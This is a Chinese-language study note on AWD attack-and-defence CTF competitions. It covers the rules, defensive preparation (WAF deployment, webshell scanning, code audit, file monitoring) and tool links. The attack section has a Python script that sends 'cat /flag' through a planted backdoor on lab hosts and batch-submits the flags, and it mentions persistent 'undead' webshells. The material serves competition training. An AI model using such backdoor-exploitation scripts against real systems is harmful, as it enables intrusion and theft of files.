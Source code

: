## 思维导图

![](image80/80-1.png)



## 何为AWD

比赛中每个队伍维护多台服务器，服务器中存在多个漏洞，利用漏洞攻击其他队伍可以
进行得分，修复漏洞可以避免被其他队伍攻击失分。

- 一般分配Web服务器，服务器(多数为Linux) 某处存在flag (一般在根目录下)
- 可能会提供一台流量分析虚拟机，可以下载流量文件进行数据分析;
- flag在主办方的设定下每隔一定时间刷新-轮
- 各队一般都有自己的初始分数
- flag一旦被其他队伍拿走，该队扣除一定积分
- 扣除的积分由获取fag的队伍均分
- 协方会对每个队伍的服务进行check,服务宕机扣除本轮fag分数,扣除的分值由
- 服务check正常的队伍均分
- 一般每个队伍会给一个低权限用户，非root权限

具体规则以具体比赛规则为准，但一般大同小异。

## AWD 常见比赛规则说明：

Attack With Defence，简而言之就是你既是一个 hacker，又是一个 manager。
比赛形式：一般就是一个 ssh 对应一个 web 服务，然后 flag 五分钟一轮，各队一般都有自己的初始
分数，flag 被拿会被拿走 flag 的队伍均分，主办方会对每个队伍的服务进行 check，check 不过就扣
分，扣除的分值由服务 check 正常的队伍均分。
其中一半比赛以 WEB 居多，可能会涉及内网安全，攻击和防御大部分为前期培训内容。

## 前期准备：
1. 队伍分工明确
2. 脚本工具环境完整
3. 漏洞 POC/EXP 库完整
4. 安全防御 WAF 及批量脚本完整
## 必备操作：

1. 备份网站文件
2. 修改数据库默认密码
3. 修改网页登陆端一切弱密码
4. 查看是否留有后门账户
5. 关闭不必要端口，如远程登陆端口
6. 使用命令匹配一句话特性
7. 关注是否运行了“特殊”进程
8. 权限高可以设置防火墙或者禁止他人修改本目录

# 演示案例：

## 防守—部署WAF—实现第一时间拦截部分攻击—升级后续版

最快第一时间操作，此类技术核心准备为各个环境的 WAF 部署(源码语言，比赛规则)

涉及资源：

- https://github.com/zhl2008/awd-platform
- https://github.com/yemoli/prepare-for-awd
- https://github.com/leohearts/awd-watchbird
- https://github.com/DasSecurity-HatLab/AoiAWD
- AoiAWD-针对CTF AWD的原创轻量级防御系统 https://mp.weixin.qq.com/s/kwzJnoi2FwFhwbdxetd45A
- AWD平台搭建 https://www.cnblogs.com/Triangle-security/p/11332223.html
- AWD红蓝对抗资料工具 https://pan.baidu.com/s/1qR0Mb2ZdToQ7A1khqbiHuQ提取码:xiao
- 线下AWD平台搭建以及一些相关问题解决 https://www.cnblogs.com/pureqh/p/10869327.html

## 防守—扫描后门—实现第一时间利用预留后门攻击—升级脚本版

最快第一时间操作，此类技术核心在于扫描源码中**预留或隐藏后门**

当网站服务器被入侵时，我们需要一款Webshell检测工具，来帮助我们发现webshell，进一步排查系统可能存在的安全漏洞。

- [10款常见的Webshell检测工具](https://www.cnblogs.com/xiaozi/p/12679777.html)
- 目的：使用杀毒软件查杀出shell脚本，及时做好排查防护策略。

## 防守—代码审计—实现第一时间找出源码中安全漏洞—升级漏洞库版

简要分析可能存在的安全问题，配合流量监控及**代码审计**后续操作(框架及非框架，源码语言，漏洞库等)进行漏洞判定

- Seay源代码审计系统——（只支持PHP语言，单一，速度快，审计结果相对Fortify较少）
- Fortify——（支持语言丰富，速度较慢，审计结果更多、更详细）

## 防守—文件监控—实现第一时间监控当前目录文件操作—升级流量监控

最快第一时间操作，在防守攻击时，实时监控当前目录文件上传删除等操作，有效防止恶意删除、上传后门等，后续可配合流量操作行为监控找出更多漏洞

![img](https://img2020.cnblogs.com/blog/1375459/202201/1375459-20220112171456413-584401581.png)

## 攻击—批量 Flag—实现第一时间利用脚本批量 Flag 得分—升级模版不死马

攻击第一时间操作，写好批量获取 Flag 脚本后，预定 Flag 更新时间，实现自动获取及提交，升级后门写入及不死马等操作，实现权限维持实时获取得分。

- 假设分析脚本，发现一个后门，针对这个后门，可以批量写脚本。

![img](https://img2020.cnblogs.com/blog/1375459/202201/1375459-20220112174250663-667849687.png)

批量获取并提交flag

```python
import requests


def get_flag():
    data={
        'shell':'cat /flag'
    }
    for i in range(8801,8804):
        url='http://192.168.76.156:' + str(i) + '/footer.php'
        result=requests.post(url,data=data).content.decode('utf-8')
        print(result)
        with open(r'flag.txt','a+') as f:
            f .write(result+'\n')
            f.close()

def tijiao_flag():
    for flag in open('flag.txt'):
        flag=flag.replace('\n','')
        url='http://192.168.76.156:8080/flag_file.php?token=team1&flag='+flag
        requests.get(url)

if __name__ == '__main__':
    get_flag()
    tijiao_flag()

```



# 涉及资源：
[https://github.com/zhl2008/awd-platform](https://github.com/zhl2008/awd-platform)
[https://github.com/yemoli/prepare-for-awd](https://github.com/yemoli/prepare-for-awd)
[https://github.com/leohearts/awd-watchbird](https://github.com/leohearts/awd-watchbird)
[https://github.com/DasSecurity-HatLab/AoiAWD](https://github.com/DasSecurity-HatLab/AoiAWD)
[https://www.cnblogs.com/Triangle-security/p/11332223.html](https://www.cnblogs.com/Triangle-security/p/11332223.html)
[AWD红蓝对抗资料工具 https://pan.baidu.com/s/1qR0Mb2ZdToQ7A1khqbiHuQ提取码:xiao](https://pan.baidu.com/s/1qR0Mb2ZdToQ7A1khqbiHuQ 提取码：xiao)

### 参考

- https://www.cnblogs.com/zhengna/p/15775396.html